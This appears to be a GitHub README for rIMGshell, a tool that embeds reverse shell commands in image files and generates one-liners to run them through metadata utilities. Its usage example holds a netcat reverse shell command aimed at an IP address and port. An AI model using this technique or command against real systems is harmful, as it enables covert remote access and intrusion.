# rIMGshell

```
# rIMGshell

<img src="https://github.com/git5loxosec/rIMGshell/blob/main/Screenshot_2023-09-22_20_08_14.png"></a>

![GitHub](https://img.shields.io/github/license/git5loxosec/rIMGshell)

rIMGshell is a command-line tool for injecting a reverse shell command into an image and generating one-liner execution methods to exploit it.

## Features

- Inject reverse shell commands into image files.
- Generate one-liner execution methods for various tools.
- Choose from multiple one-liner execution methods.

## Installation

1. Clone the repository:

   ```
   git clone https://github.com/git5loxosec/rIMGshell.git
   ```

2. Change to the project directory:

   ```
   cd rIMGshell
   ```

3. Make the script executable:

   ```
   chmod +x rIMGshell.sh
   ```

## Usage

```
./rIMGshell.sh [OPTIONS] <REVERSE_SHELL_COMMAND> <IMAGE_FILENAME>
```

- `[OPTIONS]` - Optional arguments.
- `<REVERSE_SHELL_COMMAND>` - The reverse shell command to inject.
- `<IMAGE_FILENAME>` - The name of the image file.

**Example:**

```
./rIMGshell.sh "nc 192.168.1.128 4444 -e /bin/sh" image.jpg
```

## One-Liner Execution Methods

- **exiftool-one-liner:** Injected image can be executed with exiftool.
- **exiv2-one-liner:** Injected image can be executed with exiv2.
- **identify-one-liner:** Injected image can be executed with identify.
- **file-grep-one-liner:** Injected image can be executed with file and grep.
- **jpeginfo-grep-one-liner:** Injected image can be executed with jpeginfo and grep.

## Contributing

Contributions are welcome! Please fork the repository and submit a pull request.

## License

This project is licensed under the [MIT License](LICENSE).
```
